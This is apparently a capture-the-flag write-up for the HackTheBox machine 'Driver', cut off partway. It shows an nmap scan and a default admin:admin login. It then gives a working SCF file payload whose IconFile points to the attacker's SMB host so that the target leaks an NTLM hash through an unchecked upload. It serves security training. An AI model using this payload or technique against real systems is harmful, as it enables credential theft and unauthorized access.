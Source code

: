 # Driver
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC -Pn 10.10.11.106 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-11 00:40 PDT
Nmap scan report for 10.10.11.106
Host is up (0.020s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-11T14:42:06
|_  start_date: 2023-08-11T14:39:43
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.39 seconds
```

Using nmap, we identified there are 4 ports open, 80, 135 (msrpc service), 445 (smb service), and 5985. Port 5985 (WinRM service) should be our interest here. Anyway since it runs a webapp, i succeed login using `admin:admin`.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7b3e6987-30f9-4f12-8881-64b73201c8c7)


Seems the vuln is at the file upload feature, because it does not check the uploaded file, the file itself shall reviewed manually later by the testing team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a69f817c-0ea2-4196-996c-41501be82cec)


Remembering the OS used is windows, hence we can upload Shell Command File (SCF) that can makes a connection back to our local machine using SMB (remembering the file is uploaded to a SMB share). With this we can grab the NTLM Hash.

#### NOTES:

```
NTLM (NT LAN Manager) hash is a cryptographic hash function used in Windows OS for authentication purposes.
It's commonly used as a password hashing mechanism in Windows env.
NTLM hash is designed to hash passwords and other data for security,
 but it's considered relatively weak compared to more modern hashing algorithms like bcrypt or Argon2.
```

Since there is SMB Share, i used this template `.scf` file from this --> https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/.

> SCF FILE

```
[Shell]
Command=2
IconFile=\\10.10.14.4\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```

